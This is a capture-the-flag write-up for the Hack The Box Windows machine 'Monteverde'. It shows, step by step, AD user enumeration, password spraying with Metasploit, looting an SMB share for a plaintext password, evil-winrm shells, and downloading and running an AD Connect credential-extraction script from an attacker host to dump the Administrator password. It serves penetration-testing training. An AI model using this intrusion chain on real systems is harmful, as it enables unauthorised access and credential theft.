 # Monteverde

<table>
    <tr>
    <td style="text-align:right;"><b>OS</b></td>
    <td>Windows</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Difficulty</b></td>
    <td>Medium</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Points</b></td>
    <td>30</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Release</b></td>
    <td>11 Jan 2020</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>IP</b></td>
    <td>10.10.10.172</td>
    </tr>
</table>

## Summary

This machine begins by querying the users and seeing that one of the users has a password the same as the user account. From there, we enumerate SMB shares to find the password of another user to get a shell. To escalate to root, we take advantage of an exploit for users in the Azure Admins group to print out Administrator's password.

## Foothold

To begin, we will add the entry `10.10.10.172 monteverde.htb` to `/etc/hosts` and then start scanning.

```
# nmap -sC -sV -T4 monteverde.htb
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-27 22:56:08Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

From this, we see that this is an AD machine for domain `MEGABANK.LOCAL0`. An additional port scan of all ports shows Windows Remote Management is enabled. To start enumeration, we will try to look at SMB shares with no credentials but we are met with a logon failure.

```
# smbclient -L monteverde.htb -U ""
Enter WORKGROUP\'s password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

We will try to get some credentials so we can enumerate this later. To start, we will query LDAP for a list of users using `enum4linux`.

```
# enum4linux -U monteverde.htb 2>/dev/null
...
 =============================== 
|    Users on monteverde.htb    |
 =============================== 
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos       Name: Dimitris Galanos  Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope  Name: Mike Hope Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary        Name: Ray O'Leary       Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs    Name: SABatchJobs       Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)
...
```

We can put these users in a file, `users.txt`, and see if any of them have no password or a trivial password set. We will use the Metasploit module `smb_login`.

```
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS monteverde.htb
RHOSTS => monteverde.htb
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf5 auxiliary(scanner/smb/smb_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/smb/smb_login) > set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.172:445      - 10.10.10.172:445 - Correct credentials, but unable to login: '.\Guest:',
[*] monteverde.htb:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smb/smb_login) > set BLANK_PASSWORDS false
BLANK_PASSWORDS => false
msf5 auxiliary(scanner/smb/smb_login) > set USER_AS_PASS true
USER_AS_PASS => true
msf5 auxiliary(scanner/smb/smb_login) > run

[+] 10.10.10.172:445      - 10.10.10.172:445 - Success: '.\SABatchJobs:SABatchJobs'
[*] monteverde.htb:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

We see that the `SABatchJobs` user has a password that is the same as the user. This user is not part of the Remote Management Users group so we cannot get a shell as them but we can try to query SMB shares now.

```
# smbclient -L monteverde.htb -U "SABatchJobs"
Enter WORKGROUP\SABatchJobs's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        azure_uploads   Disk      
        C$              Disk      Default share
        E$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        users$          Disk 
```

## User

The first share that looks useful is `azure_uploads` but there is nothing in it that we can see. The second share that is useful is `users$` which has four user folders that we can query.

```
# smbclient \\\\monteverde.htb\\users$ -U "SABatchJobs"
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020

                524031 blocks of size 4096. 519955 blocks available
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
getting file \mhope\azure.xml of size 1212 as azure.xml (3.0 KiloBytes/sec) (average 3.0 KiloBytes/sec)
```

If we look at `azure.xml`, we see a password for `mhope`.

```
# cat mhope/azure.xml 
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

Since they are part of the Remote Management Users group, we can use `evil-winrm` to get a shell as them and read the flag.

```
# evil-winrm -i monteverde.htb -u mhope -p 4n0therD4y@n0th3r$

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\mhope\Desktop> cat user.txt
496197**************************
```

## Root

Doing some simple enumeration, we see that `mhope` is part of the "Azure Admins" group.

```
*Evil-WinRM* PS C:\Users\mhope> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
...
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
...
```

In a [blog post](https://blog.xpnsec.com/azuread-connect-for-redteam/) about this group, we see that we can take advantage of this membership in order to print out the Administrator password. We will host the exploit on our machine with a Python HTTP server and download and run the file on Monteverde.

```
# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```
*Evil-WinRM* PS C:\Windows\TEMP> Invoke-WebRequest http://10.10.15.15:8000/exploit.ps1 -OutFile C:\Windows\TEMP\exploit.ps1
*Evil-WinRM* PS C:\Windows\TEMP> ./exploit.ps1
AD Connect Sync Credential Extract POC (@_xpn_)

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```

With these credentials, we can use `evil-winrm` to get a shell as Administrator and get the flag.

```
# evil-winrm -i monteverde.htb -u Administrator -p d0m@in4dminyeah!
                                                                                                              
Evil-WinRM shell v2.3                                                                                         
                                                                                                              
Info: Establishing connection to remote endpoint                                                              
                                                                                                              
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop                                               
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt                                                  
129096**************************
```
